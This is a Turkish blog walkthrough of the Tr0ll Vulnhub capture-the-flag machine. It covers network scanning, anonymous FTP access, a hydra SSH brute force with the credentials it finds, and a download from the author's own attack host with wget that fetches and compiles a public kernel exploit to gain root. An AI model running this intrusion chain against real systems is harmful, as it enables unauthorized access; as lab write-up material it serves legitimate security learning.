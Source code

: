 ```yaml
---
layout: post
title: "Tr0ll Vulnhub Writeup"
date: 2017-04-11
share: true
description: Tr0ll Vulnhub Writeup
tags:
 - vm
comments: true
---
```


# Tr0ll Vulnhub

Herkese merhabalar. Üniversite 1. sınıftan beri hep ertelediğim işi artık yapacağım! Yani Blog tutucam :) Elimden geldiğince faydalı olacağını düşündüğüm yazılar yazmaya çalışacağım. Umarım faydalı olur. O zaman başlayalım.

Bu yazı da sizlere Tr0ll isimli zaafiyetli makinenin çözümünü anlatacağım. Öncelikle makineyi indirmek için;

>[https://www.vulnhub.com/entry/tr0ll-1,100/](https://www.vulnhub.com/entry/tr0ll-1,100/)

Makinenin sanal ortamda kurulumunu tamamlandıktan sonra zaafiyetli makinenin ıp adresini tespit edip işe koyuluyoruz.
Benim kali makinemin ıp adresi 192.168.100.129.

	$ netdiscover -r 192.168.100.0/24 

![](/images/tr0ll/netd.png)
	
diyerekten makinenin ıp adresini buluyoruz.Bende 192.168.100.140 olarak gözüküyor. Ip adresini de bulduğumuza göre bir nmap taraması atıp yolumuzu buluyoruz.

![nmap](/images/nmap.png)

nmap parametrelerini kısaca açıklayayım;
>-sS - - - > SYN Scan. SYN bayraklı paketler yollar. Varsayılan olarak kullanılır ve oldukça hızlıdır.

>-sV - - - > Hangi servisin çalıştığını bilmek yetmez versiyon bilgileride lazımdır.Çalışan servislerin versiyon bilgisini verir.

>-A - - - > Agresif tarama yapar. İşletim sistemi bilgisini , servis ve versiyon bilgilerini verir.

>-Pn - - -> Ping atmadan taramayı gerçekleştirir.

>-p- - - - > Tüm portarı tarar.

Çıktılara bakarsak;

>1-) ftp servisi açık ve anonymous kullanıcılarına açık.
>2-) ssh servisi açık.
>3-) http servisi açık ve çoğu zaman karşılaştığımız robots.txt dosyası bulunuyor.(robots.txt dosyasına arama motorları tarafından indexlenmesini istemediğimiz url bilgilerini yazarız.)Ve secret url bulunuyor.

Öncelikle http servisinde neler bekliyor bizi bakıyoruz.

![](/images/tr0ll/1.png)

Kaynak koduna falan bakıyoruz. Cıks ekmek yok buradan. O zaman robots dosyasına göz gezdirelim.

![](/images/tr0ll/2.png)

![](/images/tr0ll/3.png)

Buradan da ekmek yok bize. O zaman ftp ye anonymous olarak giriş yapalım.

![](/images/tr0ll/4.png)

Kullanıcı adı anonymous password anonymous olarak giriş yapabiliyoruz. ls komutu ile burada neler tutuluyor diye baktığımızda lol.pcap adında dosyayı görüyoruz. Bildiğiniz gibi pcap dosyaları ağ trafiğini gösteren dosyalardır ve wireshark programı ile incelenebiliyor. Dosyayı isterseniz get dosyaAdi şeklinde kendi makinenize çekebilirsiniz isterseniz browser üzerinden ftp://ıp-adresi diyerekten görüntüleyip indirebilirsiniz.

![](/images/tr0ll/5.png)

Pcap dosyasını indirip wireshark ile incelediğimde bir FTP-DATA içerisinde bir mesajla karşılaşıyorum.

![](/images/tr0ll/6.png)

![](/images/tr0ll/8.png)

Bize sup3rs3cr3tdirlol bulmamızı söylüyor. Hemen browser üzerinde url'e yazıyoruz ve sonuc;

![](/images/tr0ll/9.png)

Dosyayı indirip file komutu ile baktığımda ELF dosyası olduğunu gördüm. Yani linux üzerinde çalışan bir dosya. Bu yüzden dosyaya chmod komutu ile çalıştırma izni verip çalıştırdım.

![](/images/tr0ll/10.png)

0x0856BF adresini bulmamızı istiyordu. Bu adresi aratırken bir anda istemeden bu makinenin çözümünü yazan elemanın sayfasında buldum kendimi. Ve yine url de aramamız gerekiyormuş. Hemen url'e bu değeri yazdım.

![](/images/tr0ll/11.png)

good_luck isimli klasöre girdiğimde which_one_lol.txt adlı dosya vardı ve içerinde kullanıcı isimleri bulunduruyordu. Diğer klasörün içerisinde ise Pass.txt dosyası bulunuyordu ve içinde 'Good_job_:)' yazıyordu.

Başta attığımız nmap taramasında hatırlarsanız ssh servisi açıktı ve bu kullanıcı isimleri ve parola ssh ile bağlanmamızı sağlayabilir. Bu yüzden bu dosyları indirip hydra aracı ile ssh servisine brute force yaptım.

Fakat denedim denedim olmadı işe yaramıyordu. Bu böyle olmazdı ve kopya çektim:) Ben Pass.txt dosyası içerisindeki 'Good_job_:)' yazısını paroladır ancak diye düşünüyordum fakat parola 'Pass.txt' imiş. Yani dosyanın ismi.

Makineyi hazırlayan arkadaşları tebrik ediyorum. Makine isminin hakkını veriyor abi. Tam troller...

Neyse hydra ile brute force yaptıktan sonra bakıyoruz ve BİNGO ...

![](/images/tr0ll/12.png)

Parametrelerden kısaca bahsedersem;

>-L - - - > Bu paramatre ile kullanıcı adlarının olduğu listeyi belirtiriz. Eğer '-l' olsaydı tek kullanıcı olduğunu belirtmiş olurduk. Burada dosya içersinden teker teker dener.
>-p - - - > Bu parametre ile parola olarak 'Pass.txt' kullanmasını söyledik.
>ssh - - - > ssh servisine brute force yapacağımız belirttik.

Ve kullanıcı adı 'overflow' parola 'Pass.txt' olduğunu öğrendik.

	ssh overflow@192.168.100.140

Ve içerdeyiz canım kurban.

![](/images/tr0ll/13.png)

Hemen kullanıcı bilgisine ve çekirdek bilgisine bakalım.

![](/images/tr0ll/14.png)

Burada root yetkisine sahip komutlara baktım acaba buradan yürüyebilirmiyim diye fakat birşey çıkmadı. Daha sonra öğrendiğim çekirdek bilgisinden yola çıkarak zaafiyetini aradım ve exploit-db de yayınlanmış olan zaafiyetini gördüm.

![](/images/tr0ll/15.png)

Exploit dosyasını kali makineme indirdim. Buradan python ile http servisi başlattım.

	python -m SimpleHTTPServer 8080
	
Ssh ile bağlandığım zaafiyetle makinede /tmp klasörine gittim. Linux da tmp klasörü geçici dosyalarının tutlduğu yerdir. Yani buraya dosya yazabilirsiniz. Burada ;

	wget http://192.168.100.129:8080/37292.c

komutu ile exploit dosyasını zaafiyetli makineye çektim.

Exploit dosyası c dosyası olduğu için öncelikle bu dosyayı derleyip çalışabilir hale getirdim.

	gcc 37292.c -o exploit 
	
![](/images/tr0ll/16.png)

Ve exploiti çalıştırdığımda artık rootum.

![](/images/tr0ll/17.png)

Artık root klasörüne gidebiliriz. Burada dikkatimizi proof.txt dosyası çekiyor . Zaten makinede okumamız istenen dosya bu. Ve Dosyayı okuduğumuzda Mission Complete...

![](/images/tr0ll/18.png)



















  











